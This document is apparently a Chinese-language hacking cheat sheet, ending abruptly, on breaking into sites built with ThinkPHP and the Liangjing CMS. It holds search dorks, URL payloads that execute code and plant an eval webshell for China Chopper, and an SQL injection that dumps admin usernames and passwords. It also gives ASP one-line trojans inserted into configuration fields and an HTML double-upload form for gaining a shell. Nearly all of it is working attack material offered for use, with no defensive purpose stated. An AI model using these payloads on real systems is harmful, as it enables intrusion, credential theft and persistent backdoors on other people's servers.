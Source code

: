 Thinkphp框架任意代码执行漏洞 :

ThinkPHP是一款国内使用比较广泛的老牌PHP MVC框架

关键字：thinkphp intitle:系统发生错误

获取Thinkphp的版本号：index.php/module/action/param1/$%7B@print(THINK_VERSION)%7D

获取服务器的配置信息：index.php/module/aciton/param1/${@phpinfo()}

列出网站所有文件列表：index.php/module/action/param1/{${system($_GET[‘x’])}}?x=ls -al

直接在网页执行一句话：index.php/module/action/param1/{${eval($_POST[s])}}

菜刀连接：http://www.xxx.com/index.php/module/action/param1/{${eval($_POST[s])}} 密码：s



良精系统 :

( 爆管理员帐号密码的代码 )

NewsType.asp?SmallClass=’%20union%20select%200,username%2BCHR(124)%2Bpassword,2,3,4,5,6,7,8,9%20from%20admin%20union%20select%20*%20from%20news%20where%201=2%20and%20”=’

（ 一句话木马的妙用 ）

插入一句话木马后，连接网站的配置文件：inc/config.asp 密码都是g

1.网站配置-允许的上传文件类型-插入闭合的一句话木马：”%><%eval request(“g”)%><%s=” 不行就增加一个cer格式，之后上传cer格式的木马即可

2.网站配置-网站地址-插入闭合的一句话木马：http://”%><%execute(request(“g”))%><%’

3.网站配置-网站名称-插入闭合的一句话木马：沧州临港彩越化工有限公司”%><%eval request(“g”)%><%s=”

4.网站配置-版权信息-插入闭合的一句话木马：”%><%eval(request(chr(103)))%><%’

（ 利用upfile_other.asp漏洞拿shell ）

直接访问会员中心：userreg.asp

注册一个用户并在未退出登录的状态下，使用双文件上传工具足以爆它菊花，以下代码保存为1.html，并里面的修改目标站，第一个上传jpg，第二个上传cer

<HTML><HEAD> <META http-equiv=Content-Type content=”text/html; charset=gb2312″> <STYLE type=text/css>BODY { FONT-SIZE: 9pt; BORDER-TOP: #000000 1px solid; FONT-SIZE: 9pt; BORDER-LEFT: #000000 1px solid; COLOR: #0000ff; BORDER-BOTTOM: #000000 1px solid; HEIGHT: 20px } </STYLE>

<META content=”MSHTML 6.00.2800.1400″ name=GENERATOR></HEAD> <BODY leftMargin=0 topMargin=0> <FORM name=form1 action=”http://www.xxx.com/upfile_other.asp”; method=post encType=multipart/form-data><INPUT type=file size=30 name=FileName> <INPUT type=file size=30 name=FileName1> <INPUT style=”BORDER-RIGHT: rgb(88,88,88) 1px double; BORDER-TOP: rgb(88,88,88) 1px double; FONT-WEIGHT: normal; FONT-SIZE: 9pt; BORDER-LEFT: rgb(88,88,88) 1px double; LINE-HEIGHT: normal; BORDER-BOTTOM: rgb(88,88,88) 1px double; FONT-STYLE: normal; FONT-VARIANT: normal” type=submit value=上传 name=Submit> <INPUT id=PhotoUrlID type=hidden value=0 name=PhotoUrlID> </FORM></BODY></HTML>

另外可以利用会员中心的cookies，用火狐浏览器登陆之后，访问upfile_other.asp页面，用抓包工具去抓包，接着用明小子上传拿shell.

（ 上传漏洞 ）

漏洞文件：Upfile_Photo.asp

前提是进入后台了，访问这个文件，将提示“请先选择你要上传的文件！”，用抓包工具抓管理员的cookies，再把上传地址跟cookies扔到名小子里上传拿shell

（ 南方在线编辑器 ）
